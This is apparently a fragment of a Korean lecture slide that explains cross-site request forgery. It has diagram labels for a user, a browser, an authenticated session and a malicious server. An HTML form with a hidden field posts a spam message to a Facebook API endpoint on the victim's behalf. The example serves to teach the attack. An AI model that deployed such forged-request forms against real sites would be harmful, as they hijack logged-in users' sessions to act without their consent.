

사용자
브라우저
다른 사이트
인증된 상태
request
response
악성 서버
<form action="http://facebook.com/api/content" method="post">
	<input type="hidden" name="body"
		value="여기 가입하면 돈 10만원 드립니다." />
 	<input type="submit" value="Click Me"/>
</form>